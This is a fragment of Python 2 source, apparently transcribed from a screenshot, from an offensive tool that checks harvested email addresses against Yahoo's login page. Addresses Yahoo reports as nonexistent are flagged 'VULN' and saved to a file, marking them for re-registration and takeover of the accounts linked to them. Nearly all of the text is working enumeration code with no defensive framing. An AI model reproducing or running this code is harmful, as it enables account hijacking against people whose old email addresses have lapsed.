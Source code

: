 		jcsb +=1
		mpsh.append(jcsb)
		yahoo = re.compile(r'@.*')
		otw = yahoo.search(mail).group()
		if 'yahoo.com' in otw:
			br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
			br._factory.is_html = True
			br.select_form(nr=0)
			br["username"] = mail
			click = br.submit().read()
			seat = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
			try:
			        picks = seat.search(click).group()
			except:
			        continue
			if '"messages.ERROR_INVALID_USERNAME">' in picks:
				save.write(mail + '\n')
				print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail)
				sucessful.append(mail)
	print 42*"\033[1;97m═"
